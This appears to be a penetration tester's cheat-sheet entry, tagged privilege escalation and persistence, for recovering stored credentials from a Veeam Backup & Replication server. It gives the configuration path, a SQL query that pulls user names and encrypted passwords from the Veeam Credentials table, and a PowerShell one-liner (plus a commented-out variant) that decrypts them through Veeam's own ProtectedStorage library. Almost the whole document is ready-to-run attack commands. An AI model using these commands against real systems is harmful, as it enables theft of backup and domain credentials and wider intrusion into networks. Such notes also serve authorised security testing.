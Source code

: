 # saz-veeam.md

#plateform/windows
#target/local
#cat/PRIVESC
#cat/PERSIST
#cat/SAJJAD
#tag/curl

## VEEAM Get DataBase (DIR)
C:\Program Files\Common Files\Veeam\Backup and Replication\DBConfig\

## VEEAM Get DataBase (Run As Administrator)
C:\Program Files\Common Files\Veeam\Backup and Replication\DBConfig\Veeam.Backup.DBConfig.exe

## VEEAM - Récupérer les MDP DB step 1/2: SQL
SELECT TOP 100 [id], [user_name], [password], [usn], [description], [visible], [change_time_utc] FROM [VeeamBackup_New].[dbo].[Credentials];


<!-- ## VEEAM - Récupérer les MDP DB step 2/2: PowerShell
"$encoded= "<PASSWORD_HASH>""
Add-type -path "C:\Program Files\Veeam\Backup and Replication\Backup\Veeam.Backup.Common.dll"
[Veeam.Backup.Common.ProtectedStorage]::GetLocalString($encoded) -->

## VEEAM - Récupérer les MDP DB step 2/2: PowerShell
Add-Type -Path "C:\Program Files\Veeam\Backup and Replication\Backup\Veeam.Backup.Common.dll"; [Veeam.Backup.Common.ProtectedStorage]::GetLocalString("<PASSWORD_HASH>")
